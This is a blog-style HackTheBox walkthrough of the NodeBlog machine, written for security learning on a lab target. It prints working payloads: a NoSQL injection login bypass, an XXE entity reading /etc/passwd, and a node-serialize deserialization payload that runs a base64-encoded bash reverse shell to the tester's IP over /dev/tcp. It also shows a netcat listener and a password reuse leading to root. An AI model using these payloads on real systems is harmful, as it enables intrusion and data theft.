 ```yaml
---
layout: post
comments: true
title: "NodeBlog HTB Write Up"
tags: ['hackthebox', 'writeup', 'nosqlinyection']
---
```


## Introduction
Hello everyone! Today we are going to be pwning a HTB machine called NodeBlog. This is an easy machine, we are going to be covering a few fundamental attacks like xxe-injection or nosql-injection as asuch as deserialization (in node.js). Have fun reading!


## Ports recognizement
The ip address of the machine is 10.10.11.139
We are going to recognise all the post open on the machine and export the result into a grepeable file:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.11.139 -oG ports
```
The ports open are 22,5000

We are going to scan this ports and export into a nmap file
```bash
nmap -sSV --min-rate 5000 -vvv -p22,5000 -n -Pn 10.10.11.139 -oN services
```
We can see there is a ssh service running at port 22 and a http (node.js) service running at port 5000

## Inspect the web and fuzzing
While we inspect the web we are going to leave wfuzz fuzzing the site in case it find something relevant.

```bash
wfuzz --hc 404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -u 10.10.11.139:5000/FUZZ
```

We can see a green login button. Let's proceed.
We can see a login form.
We can try some sql inyection inputs like ' or ' -- -
but won't work. 

We have to test also nosql inyection. [PayloadAllTheThings][attp] have some exploit to bypass login form.
We are going to use burpsuite to intercept the response and modify the fields on the forms.

If we input random logins we have the response Invalid Username, but if we set in the username field admin and in the password random text we get Invalid Password, so we have a method to get users.
Now we can try bypass the password with nosqli.
```bash
{"user": "admin", "password": {"$ne": null}}
```
Also we can make a script to dump all posible usernames ans their relative passwords [nosqlforce.py][nsqlf]

> WE ARE INSIDE :boom:
<br>

We see an upload button. We try to upload a random file and we get this response:


This might be a vulnerability to XXE inyection.
Also [PayloadAllTheThings][attpxxe] cover this subject with some payloads.
We can try some payloads like 
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
In /etc/passwd we set the path to the file we want to see.
We create an xml file with this payload and we can try to upload this.

We have a response that tell us that we give the xml in the incorrect format. If we inspect the code we can see that the correct format is:
```html
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

So we modify our payload to follow that structure:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>Example Post</title>
        <description>Example Description</description>
        <markdown>&file;</markdown>
</post>
```
The &file; contains the output of the payload.

If we look into the source code of the web site we can see the /etc/passwd file wich contains multiple users of the system.

At his point we can enumerate multiple files of the machine.
We can make a simple script which is going to help to enumerate the site faster [xxe-file-dumper.py][xfd]

Let's continue looking the website. If we try to post another article by our own we get an error:

We can see the web is hosted on the /opt/blog.
We can look for a server.js or main.js file which usually have the main server code of the web server. Let's try it. We are going to use [xxe-file-dumper.py][xfd]

```bash
python3 xxe-file-dumper.py -u http://10.10.11.139:5000/articles/xml -f /opt/blog/server.js
```

We can see the we have an output file:
```node
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

We can see that the server is using an unserialize function without sanitaze input. This can be a desirializing vulneravility.

Usually the unserialize input is the cookie, because this and It's called c the code is probably deserializing the cookie.

The problem about the insecure deserilization is that if you use IIFE you can execute code when the function is deserializating even before the string is interpreted. So we can send the payload into the cookie, when the server desirialize the string, this will be executed even the cookie doen't have any sense.
This [post][deserialize_post] explain it pretty well.
The payload is the next:

```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls', function(error, stdout, stderr){console.log(stdout)});}()"}
```

We can inject a revershell payload into the code that we want to run.
```bash
bash -i >& /dev/tcp/{your_tun0_ip}/443 0>&1
```
In order to pass this code into the url we have to convert it in base64
```bash
echo 'bash -i >& /dev/tcp/{your_tun0_ip}/443 0>&1' | base64
```
In the victim's machine we have to reverse the base64 format, so our final reverse shell payload is:
```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYxCg==|base64 -d|bash
```
We mix it the the rec payload, the result:
```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYxCg==|base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```

With burpsuite we modify the cookie when we make a get request to the main page, we introduce the payload into the cookie. Mention that we have to previusly url encode this entire payload beacuse they are special character that mean's another thing in a url format (like ;).
Encoding all will asure us that the payload will work fine.

We start listening with netcat in the 443 port
```bash
sudo nc -lnvp 443
```

We send the payload, and we have a shell!
We can try to capture the flag which is alocate at /home/admin/user.txt
For some reason we dont hace permission to read the content of the folder, but our user owns the folder, so we just can chnage permission of the folder with
```bash
chmod +x /home/admin
```
Now we can see the flag!
```bash
cat /home/admin/user.txt
```

## Privilige escalation
We can try use the same password to the super user
```bash
sudo su
```
We introduce the password which we captured before when we dump the password of admin user with [nosqlforce.py][nsqlf].
They reuse the password so we are already logged root.
We can capture the flag which is located at /root/root.txt
```bash
cat /root/root.txt
```

Thank's all for reading! 📖


[nsqlf]:https://github.com/isuckatlinux/htbmachines/blob/main/nodeblog/scripts/nosqlbruteforce.py

[deserialize_post]: https://sking7.github.io/articles/1601216121.html

[xfd]: https://github.com/isuckatlinux/htbmachines/blob/main/nodeblog/scripts/xxe-file-dumper.py
[attp]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

[attpxxe]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
